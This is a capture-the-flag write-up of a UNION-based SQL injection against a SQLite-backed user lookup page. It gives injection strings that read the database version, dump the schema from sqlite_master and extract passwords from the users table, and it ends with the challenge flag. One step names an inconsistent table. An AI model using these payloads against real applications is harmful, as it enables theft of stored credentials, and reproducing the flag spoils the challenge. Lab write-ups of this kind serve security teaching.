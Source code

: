 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Select the user by ID you wish to view

![1](https://github.com/Kunull/Write-ups/assets/110326359/6a959b03-a547-4541-905b-a2a9d80c4848)

Let's click on the `Submit Query` button.

![2](https://github.com/Kunull/Write-ups/assets/110326359/fdd16ff0-d37f-44e2-b1db-91355a5734fb)

Reading the source code, we can see that the database being used is SQLite and our input is being inserted within the following query:

![3](https://github.com/Kunull/Write-ups/assets/110326359/1742de8f-980c-4496-86c4-342d14b2d981)

```
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```

## SQL Injection

In order to retrieve the flag, we first need to retrieve the table name. We can refer this [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) list.
### Retrieving SQLite version

The SQLite version can be retrieved using the following query:

```
select sqlite_version();
```

Since the original `SELECT` statement selects two columns, we need to do the same in our `UNION` query.

If we provide the following input:

```
1 UNION SELECT Null, sqlite_version();
```

The resultant query will be:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sqlite_version(); LIMIT 1
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/19852d2c-fdd7-4314-b30a-317dfa687674)

The version of SQLite being used is `3.27.2`.

### Listing the tables

For SQLite versions `3.33.0` and previous, the `sqlite_master` table contains the schema for the database including information about all the tables, indexes, views, and triggers that exist in the database.

```
SELECT sql FROM sqlite_master
```

If we provide the following input:

```
1 UNION SELECT Null, sql FROM sqlite_master;
```

The resultant query becomes:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sql FROM sqlite_master; LIMIT 1
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e4d213c2-8870-4a0e-88be-584162fcd0a5)

There is a `users` table which has three columns: `id`, `username` and `password`.

### Retrieving the flag

Now that we know the table name is `table2652065454664187289``, we can easily retrieve the password from the table.

If we provide the following input:

```
1 UNION SELECT id, password FROM users;
```

The resultant query becomes:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT id, password FROM users; LIMIT 1
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/76b1488a-e890-45b5-8fc7-d4f598288910)

## Flag

```
WEBSEC{Simple_SQLite_Injection}
```
